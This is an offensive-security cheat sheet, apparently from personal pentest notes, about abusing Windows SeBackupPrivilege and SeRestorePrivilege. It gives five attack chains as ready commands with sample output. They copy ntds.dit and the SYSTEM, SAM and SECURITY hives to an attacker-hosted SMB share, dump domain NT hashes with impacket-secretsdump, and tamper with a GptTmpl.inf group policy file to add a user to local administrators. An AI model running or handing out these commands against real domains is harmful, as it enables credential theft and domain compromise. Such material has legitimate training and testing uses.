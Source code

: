 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["Credential Dumping", "File System", "SeBackupPrivilege", "SeRestorePrivilege", "Windows", "Backup Operators", "Diskshadow"]
---
```


### Abuse #1: Robocopy

```console
# For example
robocopy /b <TARGET_DIR_PATH> <DEST_DIR> <TARGET_FILE>
```

---

### Abuse #2: Helper dlls

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

```console
Copy-FileSeBackupPrivilege '<TARGET_FILE_PATH>' 'C:\ProgramData\<TARGET_FILE>'
```

```console
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh File

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

<br>

```console
# Convert to dos format
unix2dos vss.dsh
```

#### 2. Run vss.dsh

```console
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s C:\ProgramData\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/24/2024 5:54:17 PM

-> set context persistent nowriters
-> set metadata c:\windows\tasks\test.cab
-> set verbose on
-> add volume c: alias test
-> create

Alias test for shadow ID {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a} set as environment variabl
Inserted file Manifest.xml into .cab file test.cab
Inserted file DisAF3.tmp into .cab file test.cab

Querying all shadow copies with the shadow copy set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}

        * Shadow copy ID = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}               %test%
                - Shadow copy set: {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/24/2024 5:54:18 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %test% x:
-> %test% = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}
The shadow copy was successfully exposed as x:\.
->
```

#### 3. Host a SMB Server (In Linux)

```console
impacket-smbserver share . -smb2support
```

```console {class="sample-code"}
$ impacket-smbserver share . -smb2support                                  
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
---[SNIP]---
```

#### 4. Copy to Local Linux

```console
net use \\<LOCAL_IP>\share
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net use \\10.10.14.31\share
The command completed successfully.
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\10.10.14.31\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg.exe save hklm\system \\10.10.14.31\share\system
```

#### 5. Secrets Dump

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

---

### Abuse #4: BackupOperatorToDA

#### 1. Host a SMB Server (In Linux)

```console
impacket-smbserver share . -smb2support
```

#### 2. Copy Hives

```console
.\BackupOperatorToDA.exe -t \\<TARGET_COMPUTER> -u '<USER>' -p '<PASSWORD>' -d <DOMAIN> -o \\<LOCAL_IP>\share\
```

```console {class="sample-code"}
PS C:\programdata> .\BackupOperatorToDA.exe -t \\DC01 -u user -p 'password' -d example.com -o \\10.10.14.2\share\
Making user token
Dumping SAM hive to \\10.10.14.2\share\SAM
Dumping SYSTEM hive to \\10.10.14.2\share\SYSTEM
Dumping SECURITY hive to \\10.10.14.2\share\SECURITY
```

#### 3. Secrets Dump

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

<small>*Ref: [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)*</small>

---

### Abuse #5: Modify GptTmpl.inf

#### 1. Copy GptTmpl.inf

```console
robocopy /b "\\<DOMAIN>\sysvol\<DOMAIN>\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" "C:\ProgramData" GptTmpl.inf
```

#### 2. Check Target User SID

```console
. .\PowerView.ps1
```

```console
Get-DomainUser | Select-Object samaccountname, objectsid
```

#### 3. Add Target User to Local Admin Group 

```console
# Append to GptTmpl.inf
[Group Membership]
*<SID>__Memberof = *S-1-5-32-544
*<SID>__Members =
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *<SID>
```

#### 4. Overwrite Original GptTmpl.inf

```console
robocopy /b "C:\Programdata" "\\<DOMAIN>\sysvol\<DOMAIN>\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf
``` 

#### 5. Wait

```console
# Wait or force gpupdate (if possible)
gpupdate /force
```

#### 6. Secrets Dump

```console
impacket-secretsdump '<DOMAIN>/<USER>:<PASSWORD>@<TARGET_DOMAIN>' -dc-ip <DC_IP>
```